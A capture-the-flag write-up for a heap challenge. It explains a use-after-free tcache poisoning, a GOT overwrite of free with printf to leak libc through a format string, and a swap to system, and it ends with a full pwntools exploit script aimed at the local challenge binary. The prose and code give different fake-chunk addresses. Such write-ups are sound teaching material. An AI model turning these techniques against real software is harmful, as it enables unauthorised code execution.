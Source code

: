 ## Level: Medium

### Challenge

My first heap challenge, thank you @p0ch1ta for this super cool challenge. The intended way is **House of Muney** which is *leaklesss* heap exploit but I cheese'd it with getting a **leak** :)

More about House of Muney: https://maxwelldulin.com/BlogPost/House-of-Muney-Heap-Exploitation

### Checksec

![checksec](https://github.com/user-attachments/assets/c7e637d7-c3d5-4471-8c6a-f4e995039adf)

### How to leak? 

![menu](https://github.com/user-attachments/assets/2b949dc9-4cb1-4208-8fc7-b56701a8e267)

They give us an obvious vulnerability with `2. Change chunk size` but I didn't use it :P There is already **UAF** in this binary and I think that's all you need to get a shell. 

Anyway, we can change the `got` address of **free** with *printf* so it would call printf whenever we free a chunk. In order to do that we need to **fake** a chunk to read into that address near `got entries` and change it. 

Here's my approach (The order matters!!):

```
1 - Malloc chunk 0 and chunk 1
2 - Free 1 then and 0
```

![free2](https://github.com/user-attachments/assets/baacd9f6-ec15-419b-a1d4-6fb438b15b0b)

Mind that `chunk 0` is behind `chunk 1`. 

```
3 - Edit free'd chunk 0 to fake a chunk (UAF)
```
![uaf1](https://github.com/user-attachments/assets/9078a95b-29db-4884-9abd-1af8c2f3f638)

Now `chunk 0` is pointing to `AAAAAAAA` instead of pointing to the `next chunk` (chunk 1). Of course we don't want chunk 0 to point some random address. We can make it point to a **mallocable** address. 

![gotoffree](https://github.com/user-attachments/assets/406238ec-be12-4aa0-a2b1-75f209ac626e)

There are some caveats to fake a chunk and turns out `0x453508` is perfect. It's near got entries and most importantly mallocable. Make sure that `chunk 0 and 1` have *enough size* to read into **free@got**. Which is at least `40 bytes` in this case. 

```
4 - Malloc twice so fake chunk gets allocated and points to free@got
```

![empty](https://github.com/user-attachments/assets/6ef3a766-c2a5-41ad-b77d-f7ba363b9acb)

Tcache is empty, this means that our `fake chunk` is allocated. 

```
5 - Use "4. Edit chunk" option to start reading into fake chunk's next pointer. Which is somewhere near got entries. 
```

![readgots](https://github.com/user-attachments/assets/2c7867b9-1328-412e-94ab-78acb88873b8)

This looks good! But how are we going to get a leak? 

```
6 - Overwrite free@got with printf and use format strings to leak from the stack
7 - Free the fake chunk to call printf (specify format strings to leak info about addresses on the stack)
```

![leaksss](https://github.com/user-attachments/assets/89d35390-01fa-4434-b9d1-de18196c3bfd)


Now that we have our leak in libc, we can calculate the offset to `libc base` and we are almost done. 

```
8 - Overwrite free@got again but with system!
9 - Free the fake chunk to call system("/bin/sh")
```

![flaggg](https://github.com/user-attachments/assets/9999e3cf-a772-47a6-a610-841707b260e3)

Getting a shell was quite painful so I just write out the flag. This was really fun even tho it wasn't intented solution! I think I learned a lot from this and I must include following writeups that inspired me for this solution:
https://www.youtube.com/watch?v=qVLXHNqxpkE (by c0nrad)
https://github.com/MarcoPellero/writeups/blob/main/backdoor/konsolidator/writeup.md

### Full Exploit

```
#!/usr/bin/env python3

from pwn import *
"""
p = gdb.debug("./chall_patched", gdbscript='''
    continue 
''')
"""

p = process("./chall_patched")

# allocate two chunks
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# free them 
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("0")

# USE AFTER FREE
# change chunk's pointer to somewhere (mallocable) near got entries
near_got = 0x403508 
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(p64(near_got))

# malloc twice
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# overwrite the got entry of "free" with "printf"
# leak an address in libc with format strings
payload = b"%17$pAAA" # this is rdi
payload += b"A" * 24
payload += p64(0x401120)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# leak(free) and calculate the offset to "system"
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b"Data")
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()

libc_leak = p.recvline()
print(libc_leak)
libc_leak = int(libc_leak[3:17], 16)

libc_base = libc_leak - 544229
print("LIBC_BASE: " + hex(libc_base))

system = libc_base + 336528
print("SYSTEM: " + hex(system))

# overwrite the got entry of "free" with "system"
# write out the flag
payload = b"//bin/sh" # rdi
payload += b" $(cat flag)"
payload += b" " * 12
payload += p64(system)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# call system("/bin/sh...")
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.interactive()
```

<img src=https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExemJpd2ZkZ2o5Nnk0cTJsM3F6cnkwY3VlZG51bnloczVyMGhsa29ibiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/kbuqdYYYjuHn2/giphy.webp>

                Heap is fun :P
